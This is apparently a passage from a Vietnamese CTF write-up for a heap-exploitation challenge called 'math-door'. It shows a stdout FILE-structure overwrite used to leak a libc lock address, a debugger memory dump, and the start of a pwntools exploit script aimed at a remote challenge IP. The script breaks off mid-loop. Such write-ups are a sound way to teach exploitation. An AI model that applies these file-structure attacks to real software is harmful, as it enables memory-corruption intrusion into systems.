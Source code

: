 Ghi đè: 
```c
stdout->flags=IO_MAGIC | _IO_CURRENTLY_PUTTING | _IO_IS_APPENDING`
stdout->_IO_write_base=_IO_2_1_stdout_+128
stdout->_IO_write_ptr=_IO_2_1_stdout_+144
/*
--> trigger call _IO_new_file_overflow(f,EOF)
--> trigger call _IO_do_write (f, f->_IO_write_base,
                f-_IO_write_ptr - f->_IO_write_base);
*/
```

```x86asm
00:0000│ rsi 0x7f2f08465720 (_IO_2_1_stdout_+128) ◂— 0xa000000
01:0008│     0x7f2f08465728 (_IO_2_1_stdout_+136) —▸ 0x7f2f084667e0 (_IO_stdfile_1_lock) ◂— 0x100000001
02:0010│     0x7f2f08465730 (_IO_2_1_stdout_+144) ◂— 0xffffffffffffffff
03:0018│     0x7f2f08465738 (_IO_2_1_stdout_+152) ◂— 0x0
04:0020│     0x7f2f08465740 (_IO_2_1_stdout_+160) —▸ 0x7f2f08464880 (_IO_wide_data_1) ◂— 0x0
05:0028│     0x7f2f08465748 (_IO_2_1_stdout_+168) ◂— 0x0

```
-> Leak _IO_stdfile_1_lock.
Script:
```python
from pwn import *
from pwn import time
#file struct attack
e=ELF('./math-door')
libc=e.libc
if args.LOCAL:
    io = e.process()
elif args.REMOTE:
    io=remote("165.232.108.36",30648) #165.232.108.36:30648
def c(recv_newline=True):
    if recv_newline:
        io.sendlineafter(b'Action: \n', b'1')
    else:
        io.sendlineafter(b'Action: ', b'1')
def d(idx,recv_newline=True):
    if recv_newline:
        io.sendlineafter(b'Action: \n', b'2')
        io.sendlineafter(b'index:\n', str(idx).encode('utf-8'))
    else:
        io.sendlineafter(b'Action:', b'2')
        io.sendlineafter(b'index:', str(idx).encode('utf-8'))
def a(idx, dat,recv_newline=True):
    if recv_newline:
        io.sendlineafter(b'Action: \n', b'3')
        io.sendlineafter(b'index:\n', str(idx).encode('utf-8'))
        io.sendafter(b'hieroglyph:\n', dat)
    else:
        io.sendlineafter(b'Action: ', b'3')
        io.sendlineafter(b'index:', str(idx).encode('utf-8'))
        io.sendafter(b'hieroglyph:', dat)

def pwn(dbg = 1):
    if dbg:
        gdb.attach(io,gdbscript="""
        set follow-fork-mode parent
        set $glibc_src_dir = "./glibc-2.31/"
        source ~/add_src.py
        b execve
        """)
    for i in range(35):
```